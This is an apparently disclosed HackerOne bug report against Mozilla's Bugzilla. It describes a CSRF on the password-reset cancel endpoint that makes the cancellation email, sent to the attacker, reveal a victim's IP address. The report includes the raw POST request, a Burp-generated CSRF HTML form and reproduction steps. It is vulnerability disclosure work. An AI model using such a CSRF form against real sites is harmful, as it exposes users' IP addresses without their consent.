 # Information disclosure on password cancel endpoint 

## Report Details
- **Report ID**: 2737309
- **URL**: https://hackerone.com/reports/2737309
- **State**: Closed
- **Severity**: low
- **Submitted**: 2024-09-25T08:28:18.870Z
- **Disclosed**: 2024-10-29T13:18:06.929Z

## Reporter
- **Username**: hackeriron1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mozilla

## Vulnerability Information
## Summary:
HI team,

few month ago I found #2106662 ```CSRF to information disclosure vulnerability ``` and team resolved so I was testing then I got same vulnerability in https://bugzilla.mozilla.org/. when someone try to get password reset token so then if they will cancel password reset to they will get email notification and email contain victim IP address. so attacker can easly victim IP from cancellation process. 

It's low hanging security risk but it's significant for users. where attacker able to get victim IP, Address.
This is disclosing users information. one click information disclosed. 

Suppose attacker create account on https://bugzilla.mozilla.org/ Now attacker knows the victim created also account on https://bugzilla.mozilla.org/. Now attacker create CSRF Payload using his own email. bcoz attacker knows the how password reset functionality works ( which contain the  IP address.)  now attacker send the malicious link to victim. 

REQUEST:-

```javascript
POST /token.cgi HTTP/2
Host: bugzilla.mozilla.org
Cookie: _ga=GA1.2.943165794.1724831061; _ga_PWTK27XVWP=GS1.1.1724884053.2.0.1724884053.0.0.0; _ga_MQ7767QQQW=GS1.1.1726224133.2.0.1726224133.0.0.0; _ga_B9CY1C9VBC=GS1.1.1727174575.2.1.1727174593.0.0.0; _gid=GA1.2.1127107875.1727130511
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 114
Origin: http://burpsuite
Referer: http://burpsuite/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

cancel_token=1727251240-UxKc4U5ThgrHPhWNJ323-fahjy5Pn05h5ZYb7OqG-SI&t=3XOIDGIRtcwC3icniucOlm&a=cxlpw&cancel=Cancel
```
Convert to CSRF:-

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://bugzilla.mozilla.org/token.cgi" method="POST">
      <input type="hidden" name="cancel&#95;token" value="1727251240&#45;UxKc4U5ThgrHPhWNJ323&#45;fahjy5Pn05h5ZYb7OqG&#45;SI" />
      <input type="hidden" name="t" value="3XOIDGIRtcwC3icniucOlm" />
      <input type="hidden" name="a" value="cxlpw" />
      <input type="hidden" name="cancel" value="Cancel" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## Steps To Reproduce:
1. Create account https://bugzilla.mozilla.org/.  and send password reset link on his own email.
2. Attacker open password cancel link and create CSRF Html link. 
3. Send  to victim and attacker got email Password change request canceled
4. When attacker open email so attacker got victim IP Address. 

See in this PoC Payload attacker will use own email. Bcoz when Victim click on that malicious link attacker will get victim Information on attacker email.
███

## Impact

## Summary:
Attacker can get Information of victim by sending a link to the Victim, which will contain the Victim's IP address.

## Attachments
No attachments
